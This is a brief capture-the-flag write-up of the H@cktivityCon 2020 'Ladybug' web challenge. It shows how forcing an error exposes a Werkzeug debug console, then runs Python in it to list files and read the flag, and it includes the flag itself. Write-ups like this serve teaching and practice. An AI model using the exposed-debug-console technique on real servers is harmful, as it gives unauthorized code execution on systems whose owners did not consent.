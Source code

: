 # H@cktivityCon CTF 2020 Ladybug Writeup
by qpwoeirut

Category: Web<br>
Points: 100<br>

> Want to check out the new Ladybug Cartoon? It's still in production, so feel free to send in suggestions!
>
> Connect with one instance below:
> http://one.jh2i.com:50018
> http://two.jh2i.com:50018
> http://three.jh2i.com:50018
> http://four.jh2i.com:50018
> http://five.jh2i.com:50018
> http://six.jh2i.com:50018


Try going to http://one.jh2i.com:50018/film/flag/, will cause AssertionError.
This opens up a debugging console where we can execute any python we want.
```
>>> import os
>>> os.listdir()
['flag.txt', 'templates', 'main.py', 'requirements.txt']
>>> open('flag.txt').read()
'flag{weurkzerg_the_worst_kind_of_debug}'
```

`flag{weurkzerg_the_worst_kind_of_debug}`